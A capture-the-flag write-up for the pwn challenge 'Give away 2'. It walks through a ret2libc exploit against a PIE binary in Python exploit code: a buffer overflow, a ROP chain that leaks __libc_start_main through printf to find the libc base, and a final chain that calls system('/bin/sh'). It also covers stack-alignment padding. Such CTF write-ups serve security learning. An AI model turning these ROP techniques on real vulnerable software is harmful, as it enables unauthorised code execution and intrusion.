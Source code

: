 # Give away 2 writeup


## Content

This writeup is about PWN challenge

	* libc-2.27.so: shared library (given)
	* give_away_2: challenge binary (given)
	* ropy_exploit.py: complete exploit

![description](./screenshots/give_away_2.png)


## Binary analysis

Quick check of the binary on ida gives

* main

![main](./screenshots/ida_main.png)

* vuln 

![vuln](./screenshots/ida_vuln.png)


checksec reveal that pie is enabled which explain the purpose of leaking the address of main. So we can compute the base of the progrma later

![checksec](./screenshots/checksec.png)

## Exploit

The attack will be ret2libc but first we need to leak libc base using rop attack.

1. step 1: leaking `__libc_start_main` address

```python
base_prog = MAIN - 0x864 # compute the program base address based on the main address printed out from the program

PRINTF = elf.plt['printf'] + base_prog 
LIBC_START_MAIN = elf.symbols['__libc_start_main']  + base_prog

POP_RDI = 0x0000000000000903 + base_prog
POP_RSI = 0x0000000000000901 + base_prog
RET = 0x0000000000000676 + base_prog

#Overflow buffer until return address
padding = "A"*40
# Create rop chain
rop2 = padding +p64(POP_RDI) + p64(LIBC_START_MAIN) + p64(RET) + p64(PRINTF) + p64(RET)+p64(MAIN)
#Send our rop-chain payload
p.sendline(rop2)
```

2. step 2: Parse the leaked address

```python
recieved = p.recvline().strip().split('Give')
leak = u64(recieved[0].ljust(8, "\x00"))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))

libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))
``` 

3. step 3: Create and send the final rop

```python

BINSH = next(libc.search("/bin/sh")) 
SYSTEM = libc.sym["system"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))

final_rop = padding + p64(RET) + p64(POP_RDI) + p64(BINSH) + p64(RET) + p64(SYSTEM)

p.sendline(final_rop)
```

--> Find the full exploit in `ropy_exploit.py`

**Notes**

* The length of the payload had to be multiple of 16 because the stack should be 16-byes aligned that's why we add RET in the rop chain. Otherwise you'll stuck in the movaps segfault problem (it was my case :') )

![movaps segfault](./screenshots/printf_segfault.jpg)
